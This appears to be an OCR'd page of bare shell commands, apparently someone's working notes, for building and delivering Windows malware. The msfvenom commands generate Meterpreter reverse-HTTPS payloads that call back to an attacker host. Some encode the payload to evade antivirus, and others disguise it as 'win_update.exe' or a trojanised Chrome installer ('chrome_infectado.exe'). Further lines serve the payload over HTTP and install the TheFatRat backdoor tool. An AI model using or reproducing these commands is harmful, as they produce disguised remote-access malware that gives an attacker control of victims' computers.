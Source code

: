 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f exe -o ~/win_update.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe


msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -o chrome_infectado.exe


msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x /caminho/completo/ChromeSetup.exe -o chrome_infectado.exe


msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

python3 -m http.server 8080


git clone https://github.com/Screetsec/TheFatRat.git
cd TheFatRat
chmod +x setup.sh && sudo ./setup.sh

wget https://dl.google.com/chrome/install/latest/chrome_installer.exe -O ChromeSetup.exe



